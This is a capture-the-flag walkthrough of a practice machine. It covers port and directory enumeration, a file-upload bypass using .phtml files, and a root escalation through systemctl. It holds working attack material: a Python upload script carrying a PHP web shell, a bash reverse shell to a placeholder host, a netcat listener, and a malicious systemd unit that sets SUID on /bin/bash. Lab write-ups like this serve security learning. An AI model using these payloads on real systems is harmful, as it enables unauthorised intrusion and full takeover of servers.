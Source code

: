 # 1. Reconnaissance and Initial Enumeration

## Step 1.1: Nmap Scan
Use nmap to scan the target machine for open ports and services:

`nmap -sC -sV -oN nmap_scan <target_ip>`
	-sC: Runs default scripts.
	-sV: Version detection.
	-oN: Outputs the results to a file (nmap_scan)

## Step 1.2: Analyze the Results
	From the scan, look for:

	HTTP services: A web server may be running on port 80 or another port.
	Other important services like FTP, SSH, or SMB.

# 2. Web Application Enumeration
	Assume we found an HTTP service running on port 3333. Let’s explore the web application.

## Step 2.1: Directory Enumeration
	Use a tool like Gobuster to discover hidden directories or files:
	`gobuster dir -u http://<target_ip>:3333 -w /path/to/wordlist`
	Look for pages like `/internal/` that might contain important resources, such as an upload page

## Step 2.2: Interact with the Web Application	
	Visit `http://<target_ip>:3333/internal/` and inspect the upload functionality:
	Check if there are restrictions on what types of files can be uploaded.

# 3. Bypassing File Upload Restrictions
	I found the upload page (/internal/). The next step is to figure out which file types are allowed.

## Step 3.1: Test Various File Extensions
	Using Python, automate the testing of different file extensions to see which ones the server accepts and processes.
	Python script to automate the upload:

```
import requests

# Target URL (upload page)
url = "http://<target_ip>:3333/internal/"

# List of file extensions to test
extensions = ['php', 'php3', 'php4', 'php5', 'phtml']

# Define the file to upload
test_file_content = "File uploaded"
filename = "test"

# Loop through each extension
for ext in extensions:
    if ext == "phtml":
        file_content = '<?php system($_GET["cmd"]); ?>'  # Simple PHP shell
    else:
        file_content = test_file_content

    print(f"[*] Trying to upload {filename}.{ext}")

    # Create the file name with the current extension
    file_to_upload = (f"{filename}.{ext}", file_content, 'application/octet-stream')
    files = {'file': file_to_upload}

    # Send POST request to upload the file
    response = requests.post(url, files=files)

    # Check if upload was successful
    if response.status_code == 200:
        print(f"[+] {filename}.{ext} uploaded successfully!")
    else:
        print(f"[-] Failed to upload {filename}.{ext}") 
```        
	From testing, .phtml was accepted and executed, making it the valid extension.

# 4. Exploiting the Upload with a Reverse Shell
	Now that we know the .phtml extension works, use it to upload a reverse shell.

## Step 4.1: Modify the Python Script to Upload a Reverse Shell
	Modify the script to upload a reverse shell instead of a basic PHP file.

```
reverse_shell = """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'");
?>"""

# Only upload the reverse shell if phtml is accepted
if ext == "phtml":
    file_content = reverse_shell
    print(f"[*] Uploading reverse shell as {filename}.{ext}")
```

## Step 4.2: Set up a Netcat Listener  
	On your local machine, start a listener to catch the reverse shell:
	`nc -lvnp 4444`  
*the command nc -lvnp, each option stands for the following:

-l: Listen mode. This tells Netcat to listen for incoming connections instead of initiating a connection.
-v: Verbose. This option makes Netcat provide more detailed output about what it’s doing.
-n: No DNS. This prevents Netcat from performing DNS lookups on IP addresses, which can speed up the connection process.
-p: Port. This specifies the port number on which Netcat should listen for incoming connections.*

## Step 4.3: Trigger the Reverse Shell
	After the reverse shell is uploaded to `http://<target_ip>:3333/internal/uploads/test-revshell.phtml`, visit the URL to trigger it.
	You should receive a shell back in your Netcat listener.

# 5. Post-Exploitation and Enumeration	
	Once we have a reverse shell, start enumerating the system for further exploitation.

## Step 5.1: Stabilize the Shell
	To make the reverse shell interactive, spawn a TTY:
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`
	Set the terminal environment:
	`export TERM=xterm`

## Step 5.2: Explore the File System
	Enumerate the target machine for interesting files. You can start by checking the home directories:
	`ls /home/`

## 6. Privilege Escalation
	After gaining access, the next goal is to escalate privileges to root.

# Step 6.1: Check SUID Binaries	
	Use `find` to look for SUID binaries, which run with elevated privileges:
	`find / -perm -4000 -type f 2>/dev/null`
	Some interesting SUID binaries include:

	`/bin/systemctl`
	`/usr/bin/sudo`
	`/usr/bin/pkexec`

## Step 6.2: Exploit /bin/systemctl for Privilege Escalation
	This step I typed each line seperate
	You can exploit `/bin/systemctl` by creating a malicious service that sets the SUID bit on `/bin/bash`.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
	After running this, execute:
	`/bin/bash -p`
	This gives you a root shell.

# 7. Accessing Flags
	Once you have root access, you can access protected files, such as:
	Note: Bill's txt file could be read without root priv.
	User flag (/home/bill/user.txt)
	Root flag (/root/root.txt)	

## Conclusion
I started with reconnaissance to identify the open services.
I found an upload vulnerability in the web app, exploited it to upload a reverse shell, and gained access as www-data.
From there, I performed privilege escalation using SUID binaries to become root.
